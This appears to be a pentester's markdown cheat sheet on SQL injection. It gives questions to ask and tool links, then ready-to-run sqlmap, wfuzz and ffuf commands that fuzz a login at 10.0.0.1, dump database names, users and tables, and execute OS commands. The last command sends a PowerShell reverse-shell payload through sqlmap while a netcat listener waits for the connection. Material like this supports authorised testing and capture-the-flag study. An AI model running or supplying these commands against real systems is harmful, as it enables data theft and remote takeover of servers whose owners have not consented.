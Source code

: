 # SQL Injection

## Questions to ask yourself
  *  What inputs of the web application are likely to be part of a query?
  *  Do any behaviors of the web app imply DBMS function calls?

## Things to remember
  *  Injection syntax depends on the DBMS under the hood: **Google everything**
      *  Error outputs can reveal **A LOT** about the underlying DBMS
  *  [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings) for various SQL injection techniques
  *  Watch for filters such as case-sensitivity, whitespace removal, blacklists, etc.

## Useful tools
  *  [`sqlmap`](https://sqlmap.org/) for various SQLi interactions
  *  [`wfuzz`](https://www.kali.org/tools/wfuzz/) and [`fuff`](https://github.com/ffuf/ffuf) for manually fuzzing web app inputs for SQLi

## Fuzzing for SQL injection
  *  `sqlmap` is the go-to for SQLi fuzzing
      *  Specify files containing request text for HTTP POST fuzzing
      *  Crawl form data to automatically generate HTTP POST fuzz
      *  See [`hacktricks`](https://book.hacktricks.xyz/pentesting-web/sql-injection/sqlmap) page for more precise options
  *  `wfuzz` and `fuff` for applying lists of SQLi techniques
      *  Consider applying HTTP headers/POST data matching inital browsing requests
      *  `fuff` can parse requests from text files, easy to handle more complex POST requests

```
sqlmap -u 'http://10.0.0.1/login'
sqlmap -r http-post-request.txt
sqlmap -u http://10.0.0.1/login --forms -p username --not-string incorrect --batch
```

```
wfuzz -w /path/to/sqli.txt 'http://10.0.0.1/login?username=FUZZ&password=test'
wfuzz -w /path/to/sqli.txt -d 'username=FUZZ&password=test' 'http://10.0.0.1/login'
```

```
ffuf -request req.txt --request-proto http -w /path/to/sqli.txt -v
```

## Automated DB dumping
  *  `sqlmap` for automatically dumping data from vulnerable applications

```
sqlmap -r http-post-request.txt --current-db
sqlmap -u 'http://10.0.0.1/login' --current-user
sqlmap -u 'http://10.0.0.1/login' -D exampleDB --tables
```

## Automated code execution
  *  `sqlmap` for automatically attempting code execution via SQLi
      *  Extended help page `-hh` for detailed OS access options
  *  Headless/batch options for code exec one-liners

```
sqlmap -u 'http://10.0.0.1/login' --os-cmd='cmd /c calc.exe'
sqlmap -r http-post-request.txt --os-cmd='[POWERSHELL BASE64 REVERSE SHELL]' --answers='follow=Y' --batch > /dev/null & nc -nvlp 80
```
